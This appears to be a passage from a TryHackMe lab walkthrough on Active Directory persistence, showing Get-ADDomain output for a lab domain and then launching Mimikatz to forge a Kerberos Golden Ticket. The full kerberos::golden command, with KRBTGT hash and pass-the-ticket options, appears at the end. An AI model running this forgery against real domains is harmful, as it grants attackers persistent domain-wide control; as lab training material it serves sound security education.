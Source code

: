 ```markup
za\aaron.jones@THMWRK1 C:\Users\Administrator.ZA>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator.ZA> Get-ADDomain


AllowedDNSSuffixes                 : {}
ComputersContainer                 : CN=Computers,DC=za,DC=tryhackme,DC=loc
DeletedObjectsContainer            : CN=Deleted Objects,DC=za,DC=tryhackme,DC=loc
DistinguishedName                  : DC=za,DC=tryhackme,DC=loc
DNSRoot                            : za.tryhackme.loc
DomainControllersContainer         : OU=Domain Controllers,DC=za,DC=tryhackme,DC=loc
DomainMode                         : Windows2012R2Domain
**DomainSID**                          : S-1-5-21-3885271727-2693558621-2658995185
ForeignSecurityPrincipalsContainer : CN=ForeignSecurityPrincipals,DC=za,DC=tryhackme,DC=loc
Forest                             : tryhackme.loc
InfrastructureMaster               : THMDC.za.tryhackme.loc
LastLogonReplicationInterval       :
LinkedGroupPolicyObjects           : {CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=za,DC=tryhackme,DC=loc}
LostAndFoundContainer              : CN=LostAndFound,DC=za,DC=tryhackme,DC=loc
ManagedBy                          :
Name                               : za
NetBIOSName                        : ZA
ObjectClass                        : domainDNS
ObjectGUID                         : 1fc9e299-da51-4d03-baa0-862c3360c0b2
ParentDomain                       : tryhackme.loc
PDCEmulator                        : THMDC.za.tryhackme.loc
PublicKeyRequiredPasswordRolling   :
QuotasContainer                    : CN=NTDS Quotas,DC=za,DC=tryhackme,DC=loc
ReadOnlyReplicaDirectoryServers    : {}
ReplicaDirectoryServers            : {THMDC.za.tryhackme.loc}
RIDMaster                          : THMDC.za.tryhackme.loc
SubordinateReferences              : {DC=DomainDnsZones,DC=za,DC=tryhackme,DC=loc}
SystemsContainer                   : CN=System,DC=za,DC=tryhackme,DC=loc
UsersContainer                     : CN=Users,DC=za,DC=tryhackme,DC=loc
```

Now that we have all the required information, we can relaunch Mimikatz:
```markup
za\aaron.jones@THMWRK1 C:\Users\Administrator.ZA>C:\Tools\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53 
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )  
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com ) 
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/ 
```

## Golden Ticket
```markup
mimikatz # kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:{Domain SID} /krbtgt:{NTLM hash of KRBTGT account} /endin:600 /renewmax:10080 /ptt
```
